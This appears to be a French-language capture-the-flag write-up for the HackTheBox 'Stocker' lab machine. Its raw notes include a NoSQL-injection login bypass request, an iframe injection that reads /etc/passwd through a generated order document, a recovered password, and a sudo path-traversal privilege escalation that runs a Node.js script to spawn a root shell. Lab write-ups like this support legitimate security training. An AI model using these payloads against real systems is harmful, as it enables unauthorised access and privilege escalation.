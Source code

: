 ```yaml
---
Platform: linux
Category: ctf
Difficulty: easy
Tags:
Status: pending
public: true
IP: 10.10.11.196
---
```

![[Stocker-1.png]]




```
└─# gobuster vhost -u stocker.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --append-domain
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/02/06 23:13:46 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 10409 / 220561 (4.72%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/02/06 23:14:15 Finished

```


vhost trouvé via vhost enumeration : dev.stocker.htb

Bypass de l'authent avec au format JSON une NoSQL injection :
```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 54
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AFhbvDc7SEo_kF1-Bq2JuLGxucLWMeG5V.8UeivYzWZ%2BTMk30M8JbOTskUP1MWxYSf6%2BW3My5HcCo
Upgrade-Insecure-Requests: 1

{"username": {"$ne": null}, "password": {"$ne": null}}
```

Tentative de SSTI avec ${7*7} et

Brute force du username : angoose
Brute force du password : b3e795719e2a644f69838a593dd159ac

"$;|^{{}}''"

{"_id":"638f116eeb060210cbd83a93","title":"Toilet Paper","description":"It's toilet paper.","image":"toilet-paper.jpg","price":0.69,"currentStock":4212,"__v":0}

user length : 7  angoose
password length : 32 chars   

il y a un endpoint /api/products
							/api/po/
						
- il y a peut être d'autre endpoint en 2 chars ??
- revoir si on ne peut pas ajouter un product ou en modifier 1 ???
- pour peut être faire une SSTI ou LFI (via l'image) ?
- Voir à rebruteforcer et lister les bad chars (status  != 302)
	- voir ce qu'on pourraît faire avec ca ...?
					------------------
SSFI :

```
POST /api/order HTTP/1.1

Host: dev.stocker.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://dev.stocker.htb/stock

Content-Type: application/json

Origin: http://dev.stocker.htb

Content-Length: 214

Connection: close

Cookie: connect.sid=s%3Avl0rPp-i53IWRGNVdk7aCDRGnBn-yuyG.InPe1bsghz6TrAW2SEdKTwYuWY%2FTpy0bRLDr3Dh5jME



{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe src=/etc/passwd height=900 width=500></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```


password : IHeardPassphrasesArePrettySecure (from /var/www/dev/index.js)




privesc
```
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js

```

using sudo path traversal

```bash
# cat /tmp/rebrec/shell.js
const { spawn } = require('child_process')
const shell = spawn('sh',[], { stdio: 'inherit' })
shell.on('close',(code)=>{console.log('[shell] terminated :',code)})
```

```bash

```sudo /usr/bin/node /usr/local/scripts/../../../../../tmp/rebrec/shell.js


```